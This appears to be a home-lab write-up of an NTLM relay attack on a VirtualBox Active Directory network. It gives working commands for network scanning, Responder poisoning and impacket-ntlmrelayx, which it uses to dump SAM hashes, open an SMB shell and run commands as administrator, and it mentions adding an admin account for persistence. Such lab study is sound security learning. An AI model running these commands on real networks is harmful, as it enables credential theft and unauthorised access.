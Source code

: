 Setup:
- Run both windows workstations (THEPUNISHER, SPIDERMAN)
- The user "frank" on THEPUNISHER is also an administrator on SPIDERMAN
- The DC has to run, otherwise we will not be able to logon on SPIDERMAN, as the machine will fail to verify the NTLM hash on the DC. 
---
# Attack outline

**Exploitation steps:**
- Scan the network for hosts
- Identify hosts with SMB signing not required (nmap script: `nmap --script=smb2-security-mode.nse -p 445 <IP>`)
- Config (disable SMB, HTTP) and run *responder*
- Run *ntlmrelayx* (with the targets identified in point 1)

Responder will pass hashes to ntlmrelayx which will forward them to the target machines.
If the hashes correspond to a user that is present on a target machine (and hopefully be a local admin on that machine) we can run commands on the machine as that user. 

## Scan the network for hosts

Nmap scan shows only our machine (10.0.0.11):
![[Pasted image 20240312165922.png]]
Note: Windows firewall drops ICMP requests.

Scan the network with *arp-scan*:
![[Pasted image 20240312165838.png]]
Now we see the other machines on the network.

>[!Note]
>In the following commands we run nmap with the argument `-Pn`, otherwise nmap will only scan hosts that it was able to enumerate, which didn't work as we saw in the first network scan above (because the windows firewall drops ICMP requests).

Now we can run nmap to see what OS the hosts are running:
```bash
sudo nmap -Pn -O 10.0.0.18-20
```
Results:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 17:02 CET
Nmap scan report for 10.0.0.18
Host is up (0.00033s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
MAC Address: 08:00:27:2F:48:EE (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|11|2016|10 (94%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2022 (94%), Microsoft Windows 11 21H2 (90%), Microsoft Windows Server 2016 (89%), Microsoft Windows 10 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

Nmap scan report for 10.0.0.19
Host is up (0.00036s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:67:F2:E4 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (90%)
OS CPE: cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 10 1909 (90%), Microsoft Windows Server 2019 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

Nmap scan report for 10.0.0.20
Host is up (0.00047s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5357/tcp open  wsdapi
MAC Address: 08:00:27:5C:37:DD (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|XP (91%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_xp::sp2
Aggressive OS guesses: Microsoft Windows Server 2019 (91%), Microsoft Windows 10 1909 (90%), Microsoft Windows XP SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 12.74 seconds
```

10.0.0.18 is probably the windows server (looking at the open ports)
## Identify hosts with SMB signing not required

Nmap SMB enum script:
```bash
nmap -Pn --script=smb2-security-mode.nse -p 445 10.0.0.18-20
```

From the output we can see that the windows server (10.0.0.18) requires SMB message signing, while the 2 windows workstations (10.0.0.19, 10.0.0.20) do not:
![[Pasted image 20240312171229.png]]
## Config (disable SMB, HTTP) and run responder

Create a *targets.txt* file which contains the IP addresses of the 2 workstations (with SMB signing not required):
```txt
10.0.0.19
10.0.0.20
```

Edit the responder config file */etc/responder/Responder.conf* and switch SMB and HTTP off:
![[Pasted image 20240312172332.png]]

Run responder:
```bash
sudo responder -v -I eth1 -dw
```
SMB and HTTP should now be turned off:
![[Pasted image 20240312172511.png]]
## Run ntlmrelayx

```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
```
Args:
`-tf`: targetfile: file that contains targets by hostname or full URL, one per line
`-smb2support`: SMB2 Support

Output:
![[Pasted image 20240312173211.png]]

When we now access our attacker machine in network tab on THEPUNISHER:
![[Pasted image 20240312173511.png]]

We can see that ntlmrelay was able to relay the NTLM hash of *frank* to authenticate us on SPIDERMAN. Since frank is a local administrator on SPIDERMAN, the SAM database was dumped:
![[Pasted image 20240312173658.png]]

### Get a shell

We can also use the argument `-i` (for interactive mode) to gain a shell:
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
`-i`: Launch an smbclient, LDAP console or SQL shell insteadof executing a command after a successful relay. This console will listen locally on a tcp port and can be reached with for example netcat.

From the output we see that an SBM client shell is listening on our local machine 127.0.0.1 on port 11000:
![[Pasted image 20240312174319.png]]

Connecting to the port with netcat we have an SMB shell:
![[Pasted image 20240312174525.png]]

With the SMB shell we could for example enumerate shares:
![[Pasted image 20240312174802.png]]

### Execute a command

We can also use the argument `-c` to execute a command:
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```
`-c`: Command to execute on target system (for SMB and RPC).

From the output we see that we authenticated and executed "whoami" as a system administrator:
![[Pasted image 20240312175157.png]]

Note: We could use a command to persist access to the machine, for example by creating an administrative user account on the machine credentials that we supply.


# Optional: Capture LLMNR/NBNS/MDNS packages with wireshark

In order to see the multicast NS resolution via LLMNR/NBNS/MDNS, launch wireshark on THEPUNISHER.

In the network try to access a domain name that doesn't exist, in our case just the random string "piou":
![[Pasted image 20240313105621.png]]

In wireshark we captured the following network traffic:
![[Pasted image 20240313105729.png]]
### DNS

**Packets 1, 2:**
DNS resolution on the DC-DNS server fails

### NBNS

**Packet 3:**
NBNS query on broadcast address (10.0.0.255)
**Packet 6:**
NBNS query response from our attacker machine (10.0.0.11), by responder

### MDNS

**Packets 4, 5:**
MDNS query (IPv4, IPv6)
**Packets 9, 11:**
MDNS query response (IPv4, IPv6)

### LLMNR

**Packets 7, 8:**
LLMNR query (IPv4, IPv6)
**Packets 10, 12:**
LLMNR query response (IPv4, IPv6)

### SMB

**Packets 28+:**
THEPUNISHER (10.0.0.19) talks SMB with our attacker machine (10.0.0.11)
In packet 30 the NTLM hash is send to us.